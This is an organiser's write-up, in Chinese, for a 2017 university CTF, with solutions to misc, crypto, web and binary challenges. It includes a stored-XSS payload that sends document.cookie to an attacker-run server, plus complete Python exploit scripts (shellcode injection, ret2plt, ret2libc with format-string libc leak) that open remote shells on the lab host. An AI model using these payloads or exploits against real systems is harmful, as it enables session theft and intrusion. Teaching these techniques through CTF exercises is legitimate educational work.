Tongji CTF 2017 主办方writeup
0x00 前言
比赛期间有一些同学来问为什么Web题这么少，后面还有没有Web的，向这些同学表示歉意。本次比赛偏向于二进制，这是因为我们的出题人搞二进制的(bu)多(hui)一(wai)些(bu)。这里我们祝愿下一届比赛的出题人们把题目出的全面一些。
校内赛的难度把握也是一个值得讨论的问题。既要对新人友好，又要略带挑战；既要帮助入门，又要帮助大家走的稍远一些。不过，这也仅仅是一场比赛而已，大家以后在社团里多交流就会一起进步的。
注：
- 许多题目解法不止一种，本
writeup仅给出一种参考 - 另，建议知其然知其所以然
- 欢迎大家指出错误
0x01 Misc
Misc 100 这也是一道签到题
题目：作为 misc 的签到题，想想还有点小骄傲呢。
LS4uIC0tLS0tIC0uLS0gLS0tIC4uLSAtLi0gLS4gLS0tLS0gLi0tIC0uLiAtLS0gLSAuLi4uLSAtLiAtLi4gLS4uIC4tIC4uLi4uIC4uLi4=
Misc是新人入门CTF最好的方式。Base64编码则更是Misc中用户体验不错的类型。
LS4uIC0tLS0tIC0uLS0gLS0tIC4uLSAtLi0gLS4gLS0tLS0gLi0tIC0uLiAtLS0gLSAuLi4uLSAtLiAtLi4gLS4uIC4tIC4uLi4uIC4uLi4=
找一个在线Base64解码：
-.. ----- -.-- --- ..- -.- -. ----- .-- -.. --- - ....- -. -.. -.. .- ..... ....
结果基本可以确定是摩尔斯电码，解码得：
D0YOUKN0WDOT4NDDA5H
(do you know dot and dash)
Misc 200 py交易
题目：
def show_me_flag():
print("\n")
print(" There are always some people and ideals")
print(" for whom and which we strive, endure and persist")
print(" when isolated. ")
print(" That is why we struggle to our feet")
print(" and refuse to give up.")
print(" So, good luck :)")
print("\n")
def show_me_flag2():
print(" To be or not to be, ")
print(" that is a question.")
print("\n")
def show_me_flag3():
print(" Youth is not a time of life.")
print(" It is a state of mind.")
print(" It is not a matter of rosy cheeks, ")
print(" red lips and supple knees.")
print(" It is a matter of the will, ")
print(" a quality of the imagination, a vigor of the emotions")
print(" It is the freshness of the deep springs of life.")
print("\n")
def main():
show_me_flag()
show_me_flag2()
show_me_flag3()
if __name__ == "__main__":
main()
考查zip伪加密及python字节码隐写。
拿到zip文件发现有密码，题面没有给出密码或者爆破密码的意思，判断可能是伪加密。找到图中位置将09改为00，就可以成功提取出.pyc：

之后用python3.6运行发现输出与题目给出的一模一样，考虑可能不是源码的问题。结合python3.6的字节码很整齐这个特点，怀疑是pyc隐写。参考http://www.freebuf.com/sectool/129357.html可从字节码中提取出flag：

由于3.6版本的python字节码很整齐，也可以考虑自己手动去编译源码、对比。
(踏破铁鞋无觅处)
Misc 200 大新闻
题目：“近日，安全研究员 MathyVanhoef 发现 WPA2 协议层中存在逻辑缺陷，几乎所有支持Wi-Fi的设备（包括但不限于Android, Linux, Apple,Windows, OpenBSD, MediaTek, Linksys）都面临威胁，其传输的数据存在被嗅探、篡改的风险。攻击者可获取WiFi网络中的数据信息，如信用卡、邮件、账号、照片等，危害巨大。”
oblivi0n看着眼前的加密wifi，默默打开了Wireshark...
Flag格式：tj{wifi密码}
考查基础的wifi密码字典破解。
题目描述看起来很高端，其实是障眼法：）
直接把数据包导进aircrack-ng，找个字典暴力破解就可以。
这个题的目的是提醒大家，wifi密码尽量设置复杂一些。否则不仅会被人蹭网，黑客也可以趁机搞事情，比如看看和他共用一个wifi的电脑有没有漏洞之类的。
aircrack-ng wifi.cap -w dic.txt
flag：tj{11223344}
Misc 200 有毒吧
题目：我怎么总感觉背后有人在盯着我的电脑，总感觉有人知道我在输入什么。。。
考查基础的传输协议分析。
针对USB键盘的抓包。USB协议的数据部分在Leftover Capture Data域，把它导出成一个文件：
tshark -r xxxxxxx.pcap -T fields -e usb.capdata > keyboards.txt
记录与按键之间的对应关系参考http://www.usb.org/developers/hidpage/Hut1_12v2.pdf。
注意02开头的记录代表同时按住Shift+对应按键，比如02000F...代表shift+l，输出的是大写的L。
写个脚本跑一下：
KEY_CODES = {
0x04:['a', 'A'],
0x05:['b', 'B'],
0x06:['c', 'C'],
0x07:['d', 'D'],
0x08:['e', 'E'],
0x09:['f', 'F'],
0x0A:['g', 'G'],
0x0B:['h', 'H'],
0x0C:['i', 'I'],
0x0D:['j', 'J'],
0x0E:['k', 'K'],
0x0F:['l', 'L'],
0x10:['m', 'M'],
0x11:['n', 'N'],
0x12:['o', 'O'],
0x13:['p', 'P'],
0x14:['q', 'Q'],
0x15:['r', 'R'],
0x16:['s', 'S'],
0x17:['t', 'T'],
0x18:['u', 'U'],
0x19:['v', 'V'],
0x1A:['w', 'W'],
0x1B:['x', 'X'],
0x1C:['y', 'Y'],
0x1D:['z', 'Z'],
0x1E:['1', '!'],
0x1F:['2', '@'],
0x20:['3', '#'],
0x21:['4', '$'],
0x22:['5', '%'],
0x23:['6', '^'],
0x24:['7', '&'],
0x25:['8', '*'],
0x26:['9', '('],
0x27:['0', ')'],
0x28:['\n'],
0x2C:[' '],
0x2D:['-', '_'],
0x2E:['=', '+'],
0x2F:['[', '{'],
0x30:[']', '}'],
0x33:[';', ':'],
0x38:['/', '?'],
0x37:['.', '>'],
0x2b:'[TAB]'
}
datas = open('keyboard.txt').read().split('\n')[:-1]
output = ''
for data in datas:
shift = int(data.split(':')[0], 16) / 2
key = int(data.split(':')[2], 16)
if key == 0:
continue
output += KEY_CODES[key][shift]
print output

(Logitech USB Listener)
Misc 200 月黑风高夜
题目：听说这是嘉定的晚上。。
考查图像隐写术。
用StegSolve打开图片，在该通道下可以看到清晰的二维码，扫描后得解：

（招财进宝，我爱莹草）
0x02 Crypto
Crypto 100 RSA
题目：杨老师：将大整数分解为质因数是攻克RSA加密的核心。今天的作业很简单，求这个98位数的最大质因数：
21949311347305581797160582529498169526027487167294416984481778350712846563483858308761365244743101
打开www.factordb.com，直接输入需要分解的大整数就能看见结果。
flag: tj{5527278404454199535821801}
Crypto 200 WANNACRY
题目：If you WANNACRY, cry on my shoulders....
考查密码学基础。
灵感来源于
http://stackoverflow.com/questions/3154998/pycrypto-problem-using-aesctr。
AES-CTR理论上是很安全的，但是如果按照这样的写法对每16个字符都使用一样的key，则可以进行已知明文攻击。
被加密文件是wmv，也就是说无论视频的内容如何，文件头都是3026B2758E66CF11A6D900AA0062CE6C。
只要将明文的文件头与密文的文件头进行一次xor运算，就能得到AES-CTR的密钥。
这里需要一定的脑洞。不过文件结尾大量出现重复的ce90 5584 2a72 961e 6efb 6cba b947 7544，其实已经把key暴露出来了。
解密即可，视频中的内容就是flag。
from itertools import *
keystream = [0xCE,0x90,0x55,0x84,0x2A,0x72,0x96,0x1E,0x6E,0xFB,0x6C,0xBA,0xB9,0x47,0x75,0x44]
cipher = open('flag.wmv.enc','rb').read()
plain = open('solved.wmv','wb')
for i,j in zip( cipher , cycle(keystream) ):
plain.write( chr(i ^ j) )

(Awesome Windows media)
Crypto 300 感觉药丸
题目：一觉醒来沈老师的作业变成了这样，还怎么拿优？
考查替换密码。
如果直接用网页打开txt的话，会因为编码问题跳出一串不知所云的乱码，据说很多同学就是卡在了这里。
把文件保存下来，编码改成ANSI/GBK就能看到一篇很有特点的文章了。

替换密码，26个雨字头的汉字对应26个字母。
词频统计之后可以判断出靄=e，然后结合英语语法和密码学里讲过的字母出现频率可以将文章还原出来。
这里向大家说声抱歉，后台设置的flag打错了一个字符导致一开始很多同学没有成功提交flag，后来进行了修复。
flag: tj{substitudeisnotsafe}
0x03 Web
Web 100 这是一道XinSaiSai的题目
题目：某无聊管理员在后台默默窥屏中。千万别输入什么见不得人的东西，他肯定会点开偷偷看哦~
http://10.10.175.209:11001/tj-web01/
考查基础的XSS知识。
题目其实有提示XSS的（XinSaiSai），另外题面描述管理员会点开看也是暗示可能存在存储型XSS。
首先在一台具有能够被赛题服务器访问到的IP的机器上开一个SimpleHTTPServer：
python -m SimpleHTTPServer 80
接着在赛题页面输入用户名如下，密码随意：
<script>window.open("http://xxx.xxx.xxx.xxx/" + document.cookie)</script>

查看服务器日志：

如果没有上述服务器，也可以使用在线XSS平台，或者把自己的电脑暂时设置为宿舍路由器的DMZ主机。
(Scripting of Cross Site)
Web 200 这是一道很难的题目
题目：你听说过 PHP 吗？
http://10.10.175.209:11002/
考查获取网站备份文件意识及PHP 0e安全隐患知识。
右键查看注释之后发现存在一个tj761306263的用户名，输入后跳转到login.php，提示无法登陆。

一番猜测之后发现login.php存在一个备份文件可以访问：http://10.10.175.209:11002/.login.php.swo

在源码中发现一个==可以利用。
PHP在处理字符串时，如果使用!=或==来进行比较，则它把每一个以0E开头的值都解释为0。如果两个不同的密码经过哈希以后，其哈希值都是以0E+纯数字的结构，那么PHP将会认为他们相同，都是0。
对tj761306263进行哈希之后，发现它的MD5值正好符合这一条件：
输入另一个哈希后为0E开头的字符串，比如240610708或者QNKCDZO，都可以拿到flag。
如果能找到泄漏的备份文件的话，这题会容易很多很多。在现实对Web系统的渗透测试中，这也是一个重要的检查点。
(Dark Magic Named 0E)
0x04 Pwn
Pwn 100 这也叫缓冲区溢出？
题目：仿佛听到了莫里斯杠铃般的笑声。。。
nc 10.10.175.209 10001
考查最基本的栈溢出覆盖变量。
IDA打开程序，对Kid()函数F5：

发现需要将输入缓冲区上方的int v5覆盖为xtpa，根据图中的栈偏移计算需要输入的字符数量：
0x21c - 0x118 = 260
再结合小端序，最后

(welcome to the real world my kid)
Pwn 200 这还是缓冲区溢出？
题目：嗯，听说你很厉害。。。
nc 10.10.175.209 10002
考查格式化字符串漏洞的最基本利用。
IDA打开程序，对Kid()函数F5：

发现图中printf存在格式化字符串漏洞。再看一下readFile()：

是用来把flag读入内存的。
接下来就是寻找当执行call printf时栈顶距flag所在字符数组的偏移。
使用gdb调试发现，程序会把flag首地址存储在一个指针变量中，该变量距printf栈顶为6个偏移（由于该指针变量在代码中其他地方并未使用，所以仅仅使用IDA做反编译静态分析是看不到的。当然也可以直接通过打印栈内容来获得flag，但是由于程序限制了最多输入6个字符，所以需要多次拼凑%*$x之类的格式化字符串才可以）：


所以最终可以获得flag：

关于格式化字符串漏洞可以参考：http://bobao.360.cn/learning/detail/3654.html。
(Behind every great fortune there is a crime)
Pwn 300 C语言超级程序设计
题目：完，看来遇上大灰阔了。
nc 10.10.175.209 10003
考查最基本的传入shellcode获取shell。
IDA中直接对Kid()函数F5，发现失败：

换到反汇编界面看一下：

发现程序先要求输入一段字符，然后竟然有call eax，说明把输入的东西当做一段指令执行。
用gdb-peda看一下程序的漏洞缓解措施：

N^X保护没有打开，说明可以直接传入shellcode执行。且CANARY打开，说明不太容易通过覆盖返回地址来达到劫持控制流的目的。到www.exploit-db.com/随便找一个短一些的shellcode，用zio写一个脚本：
#!/usr/bin/env python
from zio import *
IP = "10.10.175.209"
port = 10003
shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
conn = zio((IP, port))
#conn = zio("./pwn300")
conn.writeline(shellcode)
conn.interact()
成功获得shell，发现当前目录下有flag，cat打开：

(never guess gin’s thoughts)
Pwn 400 C语言-还有这种操作-程序设计
题目：停车！这不是去幼儿园的车！
nc 10.10.175.209 10004
考查使用ret2plt绕过N^X限制。
IDA F5看一下程序：

scanf存在栈溢出。并且注意到程序的.plt表中竟然有system函数：

用gdb-peda看一下开了哪些保护措施：

发现N^X打开，但PIE没有打开。暂时不考虑传入shellcode到栈上。又由于目标环境的基址随机化是否打开以及libc库版本均不可知，考虑调用.plt中的system函数并为其传入一个sh字符串做参数获得shell。那么哪里有sh呢？在gdb-peda中find sh一下，发现Small fish最后就是sh（即0x80485db处）：

再看一下system@plt的地址：

最后用gdb调试计算一下需要多少填充字节才能够覆盖到函数返回地址。
最终可以有以下exploit脚本：
#!/usr/bin/env python
from zio import *
IP = "10.10.175.209"
port = 10004
shellcode = 'A' * 272 + '\x80\x83\x04\x08' + 'AAAA' + '\xdb\x85\x04\x08\n'
conn = zio((IP, port))
#conn = zio("./pwn200")
conn.write(shellcode)
conn.interact()
成功获得shell并得到flag：

(hahahahahahahaha you must be genius)
Pwn 500 ？？？？？
题目：:P
nc 10.10.175.209 10005
考查利用ret2libc绕过N^X及格式化字符串漏洞泄露libc库地址信息。
IDA F5打开：

发现同上题相似，还是一个scanf的栈溢出，不过这次没有了隐含的sh字符串以及system@plt，却多了一个printf的格式化字符串漏洞。
同样使用gdb-peda查看保护措施：

发现依然只开启了N^X，但是目标环境下可能开启了ASLR。这里考虑调用libc中的system函数获得shell，但是需要首先用格式化字符串漏洞获得目标环境下system加载的内存地址。由于程序运行一次只能输入一次，且有可能存在ASLR，所以我们要想办法让Kid函数运行两次：
第一次输入目的：泄露libc库地址，并控制返回地址返回到call Kid上；
然后借助第一次输入后程序返回的libc地址计算system的地址。可是sh字符串上哪里找呢？其实libc库中也有，我们在获得libc的版本及某一函数地址后，其他的地址均可以通过偏移计算出；
第二次输入目的：构造system("sh")，获得shell。
下面是具体的过程：
根据Linux下ELF文件的加载过程，__libc_start_main函数最终调用main函数。所以main函数结束后会返回到__libc_start_main，那么根据汇编中call指令特性，__libc_start_main中下一条指令地址会被压入栈。
我们在具有格式化字符串漏洞的printf处下断点，看栈上内容：

发现偏移量为83处存储了__libc_start_main中下一条指令地址。

可以先验证一下是否是这样：

可以发现两次均成功，但地址不同，这说明目标环境开启了ASLR。但是注意到该程序为32位，所以ASLR仅仅会把地址的中间12bit随机化，最后的12bit是保持不变的。据此我们可以判断出目标环境libc库版本。可以使用在线的http://libcdb.com/查询，也可以使用KITCTF开发的libc-database：https://github.com/niklasb/libc-database查询。本文使用后者查询：
根据尾号637查版本并获取对应版本库中的system函数和/bin/sh偏移：

发现有两个结果，测试后发现后一个符合目标环境特征。
需要注意的是，这个版本的libc中的/bin/sh首地址恰好带有0x0b，而scanf遇到0x0b会截断，所以这里要稍微变通一下，只取/bin/sh中的sh字符串即可。
至此，万事俱备。看一下call Kid指令地址，用来做二次调用：

最终的exploit为：
#!/usr/bin/env python
from zio import *
IP = "10.10.175.209"
port = 10005
libcRetOff = 0x18637
systemOff = 0x0003a940
shellOff = 0x159010
shellcode1 = 'A' * 267 + '\xdb\x85\x04\x08'
conn = zio((IP, port))
#conn = zio("./pwn400")
# obtain the address of __libc_start_main ret
conn.writeline('%83$p' + shellcode1)
libc_ret = conn.read(10)
libc_temp = int(libc_ret, 16) - libcRetOff
systemAddr = l32(libc_temp + systemOff)
shellAddr = l32(libc_temp + shellOff)
conn.read_until("sooo\n")
# obtain shell
shellcode2 = 'A' * 272 + systemAddr + 'AAAA' + shellAddr
conn.writeline(shellcode2)
conn.interact()
最后获得shell及flag：
